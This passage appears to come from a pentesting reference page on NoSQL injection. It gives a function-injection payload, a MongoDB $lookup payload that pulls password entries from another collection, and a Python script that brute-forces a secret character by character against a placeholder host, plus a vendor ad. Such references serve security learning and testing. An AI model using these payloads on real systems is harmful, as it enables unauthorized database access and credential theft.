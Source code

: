 ```python
"user":{"$func": "var_dump"}
```

![](<../.gitbook/assets/image (468).png>)

### Get info from different collection

It's possible to use [**$lookup**](https://www.mongodb.com/docs/manual/reference/operator/aggregation/lookup/) to get info from a different collection. In the following example, we are reading from a **different collection** called **`users`** and getting the **results of all the entries** with a password matching a wildcard.

```json
[
  {
    "$lookup":{
      "from": "users",
      "as":"resultado","pipeline": [
        {
          "$match":{
            "password":{
              "$regex":"^.*"
            }
          }
        }
      ]
    }
  }
]
```





![](<../.gitbook/assets/image (9) (1) (2).png>)

\
Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## Blind NoSQL

```python
import requests, string

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(21):
    print("[i] Looking for char number "+str(i+1))
    for char in alphabet:
        r = requests.get("http://chall.com?param=^"+flag+char)
        if ("<TRUE>" in r.text):
            flag += char
            print("[+] Flag: "+flag)
            break
```
